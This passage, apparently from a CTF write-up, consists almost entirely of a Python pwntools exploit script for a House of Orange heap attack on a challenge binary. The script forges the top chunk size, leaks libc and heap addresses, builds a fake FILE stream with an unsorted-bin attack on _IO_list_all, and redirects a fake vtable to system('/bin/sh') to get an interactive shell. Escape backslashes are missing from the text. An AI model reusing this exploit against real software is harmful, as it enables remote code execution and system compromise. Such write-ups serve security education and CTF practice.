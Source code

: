 ```
    r.recvuntil(":")
    r.sendline(name)
    r.recvuntil(":")
    r.sendline(str(price))
    r.recvuntil(":")
    r.sendline(str(color))
build(0x80,"ddaa",199,2)
payload = "a"*0x90
payload += p32(0xdada) + p32(0x20) + p64(0)
payload += p64(0) + p64(0xf31) # forge top size
upgrade(0xb1,payload,123,3) # overwrite the size of top
build(0x1000,"qqqqq",199,1) # trigger the _int_free in sysmalloc
build(0x400,"aaaaaaa",199,2) # create a large chunk and Leak the address of libc
data = see().split("Price")[0].split()[-1].ljust(8,"x00")
libcptr =  u64(data)
libc = libcptr - 0x3c4188
print "libc:",hex(libc)
upgrade(0x400,"c"*16,245,1) # Leak the address of heap
data = ("x00" +see().split("Price")[0].split()[-1]).ljust(8,"x00")
heapptr = u64(data)
heap = heapptr - 0x100
print "heap:",hex(heap)
io_list_all = libc + 0x3c4520
system = libc + 0x45380
vtable_addr = heap + 0x728-0xd0
payload = "b"*0x410
payload += p32(0xdada) + p32(0x20) + p64(0)
stream = "/bin/shx00" + p64(0x61) # fake file stream
stream += p64(0xddaa) + p64(io_list_all-0x10) # Unsortbin attack
stream = stream.ljust(0xa0,"x00")
stream += p64(heap+0x700-0xd0)
stream = stream.ljust(0xc0,"x00")
stream += p64(1)
payload += stream
payload += p64(0)
payload += p64(0)
payload += p64(vtable_addr)
payload += p64(1)
payload += p64(2)
payload += p64(3) 
payload += p64(0)*3 # vtable
payload += p64(system)
upgrade(0x800,payload,123,3)
r.recvuntil(":")
r.sendline("1") # trigger malloc and abort
r.interactive()
```

<br>

**总结**
